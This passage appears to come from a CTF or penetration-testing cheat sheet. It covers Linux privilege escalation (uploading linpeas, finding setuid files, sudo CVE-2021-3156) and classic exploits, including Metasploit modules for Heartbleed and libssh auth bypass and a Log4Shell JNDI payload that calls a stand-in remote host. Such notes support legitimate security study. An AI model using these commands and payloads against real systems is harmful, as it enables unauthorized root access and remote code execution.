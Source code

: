     Send linpeas via ssh
    ```bash	
    scp linpeas.sh user@domain:/tmp
    ```


* setuid Files

    Files with the setuid bit set are executed with the permissions of the owner of the file, not the user who started the program. This can be used to escalate privileges.

    [GTFOBins](https://gtfobins.github.io/) has a list of setuid binaries that can be used to escalate privileges.

    Custom setuid files can be exploited using [binary exploitation](#binary-exploitation).


    Find files with the setuid bit set.
    ``` bash
    find / -perm -u=s -type f 2>/dev/null
    ```

* `CVE-2021-3156` - [Website](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-3156)

    sudo versions before **1.9.5p2** are vulnerable to a heap-based buffer overflow. This can be exploited to gain root access. Very useful on older systems.

    Some payload can be found in the [Tools](Privilege%20Escalation/Tools/CVE-2021-3156/) section.


<br><br>

# Classic Exploits



* `Heartbleed`

	Metasploit module: `auxiliary/scanner/ssl/openssl_heartbleed`

	Be sure to use `set VERBOSE true` to see the retrieved results. This can often contain a flag or some valuable information.

* `libssh - SSH`

	`libssh0.8.1` (or others??) is vulnerable to an easy and immediate login. Metasploit module: `auxiliary/scanner/ssh/libssh_auth_bypass`. Be sure to `set spawn_pty true` to actually receive a shell! Then `sessions -i 1` to interact with the shell spawned (or whatever appropriate ID)

* `Default credentials` - [CheatSheet](https://github.com/ihebski/DefaultCreds-cheat-sheet/blob/main/DefaultCreds-Cheat-Sheet.csv)

    Unconfigured system can use the default credentials to login.

* `Log4Shell`

	Exploit on the Java library **Log4j**. Malicious code is fetched and executed from a remote JNDI server. A payload looks like `${jndi:ldap://exemple.com:1389/a}` and need to be parsed by Log4j.

	- [Simple POC](https://github.com/kozmer/log4j-shell-poc)
	
